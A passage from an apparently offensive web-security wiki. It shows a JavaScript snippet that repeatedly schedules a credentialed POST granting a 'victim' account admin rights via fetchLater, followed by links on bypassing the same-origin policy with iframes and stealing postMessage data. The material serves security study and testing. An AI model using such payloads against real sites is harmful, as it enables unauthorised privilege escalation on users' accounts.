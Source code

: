 
```javascript
var req = new Request("/change_rights",{method:"POST",body:JSON.stringify({username:"victim", rights: "admin"}),credentials:"include"})
const minute = 60000
let arr = [minute, minute * 60, minute * 60 * 24, ...]
for (let timeout of arr)
  fetchLater(req,{activateAfter: timeout})
```

## Iframes in SOP

Check the following pages:

[[../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md]]

[[../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md]]

[[../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md]]

[[../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md]]

## References

* [PortSwigger Research – Using form hijacking to bypass CSP (March 2024)](https://portswigger.net/research/using-form-hijacking-to-bypass-csp)
* [Chrome Developers – Iframe credentialless: Easily embed iframes in COEP environments (Feb 2023)](https://developer.chrome.com/blog/iframe-credentialless)

